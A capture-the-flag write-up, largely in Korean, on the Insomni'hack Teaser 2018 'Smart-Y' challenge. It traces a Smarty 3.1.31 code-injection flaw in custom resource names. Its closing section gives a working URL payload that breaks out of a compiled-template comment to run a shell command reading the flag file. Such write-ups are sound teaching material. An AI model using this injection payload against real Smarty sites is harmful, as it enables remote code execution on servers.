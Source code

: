 # [WEB] Insomnia Hack Teaser 2018 - Smart-Y

## Description

Last year, a nerd destroyed the system of Robot City by using some evident flaws. It seems that the system has changed and is not as evident to break now.

[http://smart-y.teaser.insomnihack.ch](http://smart-y.teaser.insomnihack.ch/)

Important : you don't need to use automated scanners or bruteforce for this challenge, and using some will result for your ip to be banned. Go on IRC to ask for being unbanned.

## Analysis

페이지에 접속하면 별 내용이 없다.

다음 페이지로 이동하다보면 아래의 페이지에 `Location`되고, \<\<\<DEBUG\>\>\>를 누르면 소스코드를 볼 수 있다.

```Php
/* 
	http://smart-y.teaser.insomnihack.ch/console.php
*/
<?php 

if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
include_once('./smarty/libs/Smarty.class.php'); 
define('SMARTY_COMPILE_DIR','/tmp/templates_c'); 
define('SMARTY_CACHE_DIR','/tmp/cache'); 
  
  
class news extends Smarty_Resource_Custom 
{ 
    protected function fetch($name,&$source,&$mtime) 
    { 
        $template = "The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>".htmlspecialchars("<<<DEBUG>>>")."</a>"; 
        $source = $template; 
        $mtime = time(); 
    } 
} 
  
// Smarty configuration 
$smarty = new Smarty(); 
$my_security_policy = new Smarty_Security($smarty); 
$my_security_policy->php_functions = null; 
$my_security_policy->php_handling = Smarty::PHP_REMOVE; 
$my_security_policy->modifiers = array(); 
$smarty->enableSecurity($my_security_policy); 
$smarty->setCacheDir(SMARTY_CACHE_DIR); 
$smarty->setCompileDir(SMARTY_COMPILE_DIR); 


$smarty->registerResource('news',new news); 
$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : ''));  
```

smarty라는 Open Source를 사용하는 것을 확인할 수 있다.

>  주소 : https://github.com/smarty-php/smarty

smarty는 `change_log.txt`파일을 포함하고 있으므로 문제서버에 요청해보았다.

```
/*
	smarty/change_log.txt in Problem Server
*/
===== 3.1.31 ===== (14.12.2016)
  23.11.2016
   - move template object cache into static variables

  19.11.2016
  - bugfix inheritance root child templates containing nested {block}{/block} could call sub-bock content from parent
    template https://github.com/smarty-php/smarty/issues/317
  - change version checking
... 생략 ...
```

문제 서버에 적용된 smarty는 2016년 12월 14일이 최종 패치 내역인것을 확인하였다.

github에 올라온 최신버전의 change_log.txt를 보면 다음과 같다.

```
/*
	smarty/change_log.txt in Github
*/
===== 3.1.32 - dev ===
22.11.2017
 - bugfix {break} and {continue} could fail if {foreach}{/foreach} did contain other
   looping tags like {for}, {section} and {while} https://github.com/smarty-php/smarty/issues/323
	...생략...
21.7.2017
  - security possible PHP code injection on custom resources at display() or fetch()
    calls if the resource does not sanitize the template name
  - bugfix fix 'mkdir(): File exists' error on create directory from parallel
    processes https://github.com/smarty-php/smarty/pull/377
  - bugfix solve preg_match() hhvm parameter problem https://github.com/smarty-php/smarty/pull/372
	...생략...
```

문제 서버에 올라간 버전과는 다르게 2017년 11월 22일이 최신 패치 내역인 것을 확인하였고, 2017년 7월 21일자로 custom resources의 disaplay와 fetch함수에서 code injection이 패치되었다.

로컬에 구축하여 서버에 접속할 시 생성되는 compile된 파일을 보면 다음과 같다.

```php
/*
	http://127.0.0.1/insom/?id=1
*/
<?php
/* Smarty version 3.1.31, created on 2018-01-23 04:45:53
  from "news:1" */

/* @var Smarty_Internal_Template $_smarty_tpl */
if ($_smarty_tpl->_decodeProperties($_smarty_tpl, array (
  'version' => '3.1.31',
  'unifunc' => 'content_5a66be01111e71_89031357',
  'has_nocache_code' => false,
  'file_dependency' =>
  array (
    '285ca3c40e8861da88e32ce7a4f5ccb78af23842' =>
    array (
      0 => 'news:1',
      1 => 1516682753,
      2 => 'news',
    ),
  ),
  'includes' =>
  array (
  ),
),false)) {
function content_5a66be01111e71_89031357 (Smarty_Internal_Template $_smarty_tpl) {
?>
The news system is in maintenance. Please wait a year. <a href='/insom/index.php?hl'>&lt;&lt;&lt;DEBUG&gt;&gt;&gt;</a><?php }
}
```

`$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : '')); `에 의해 작성된 `news:ANYTING`가 compile된 파일의 주석 부분에 들어가는 것을 확인할 수 있다.

```php
/* Smarty version 3.1.31, created on 2018-01-23 04:45:53
  from "news:1" */
```

## Exploit

파라미터 id의 값에 대한 필터링이 존재하지 않으므로 id의 값을 주석 ( \*/ \~\~\~ /\* )로 주면 \~\~\~ 부분에 php 코드 인젝션이 가능하다.

즉, id파라미터를 통해 쉘 커맨드를 실행하는 php 코드를 삽입하여 플래그를 얻을 수 있다. ~~Profit!~~

```Html
<!--
	http://smart-y.teaser.insomnihack.ch/console.php?id=1*/echo%20`cat%20/flag`;/*
-->
INS{why_being_so_smart-y} The news system is in maintenance. Please wait a year. <<<DEBUG>>>
```



**INS{why_being_so_smart-y}**